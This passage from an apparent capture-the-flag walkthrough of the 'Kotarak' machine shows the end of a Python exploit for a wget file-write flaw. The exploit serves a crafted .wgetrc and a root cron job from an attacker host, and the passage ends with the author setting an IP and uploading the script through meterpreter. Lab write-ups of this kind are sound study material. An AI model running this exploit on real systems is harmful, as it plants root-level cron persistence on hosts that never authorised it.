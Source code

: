        print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '192.168.57.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '192.168.57.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
{% endhighlight %}

However, the above script is just an example and we have to modify the following points of the script.
{% highlight shell %}
root@kali:~# cat -n wget-exploit.py | head -n 65 | tail -n 4
    62	HTTP_LISTEN_IP = ''
    63	HTTP_LISTEN_PORT = 80
    64	FTP_HOST = '10.10.14.36'
    65	FTP_PORT = 21
{% endhighlight %}

Then, go to a directory that we have write permission on the "Kotarak".<br>
Upload the python script "wget-exploit.py".
{% highlight shell %}
meterpreter > pwd
/tmp
meterpreter > upload ./wget-exploit.py
[*] uploading  : ./wget-exploit.py -> wget-exploit.py
[*] Uploaded -1.00 B of 2.77 KiB (-0.04%): ./wget-exploit.py -> wget-exploit.py
[*] uploaded   : ./wget-exploit.py -> wget-exploit.py

meterpreter > 
{% endhighlight %}
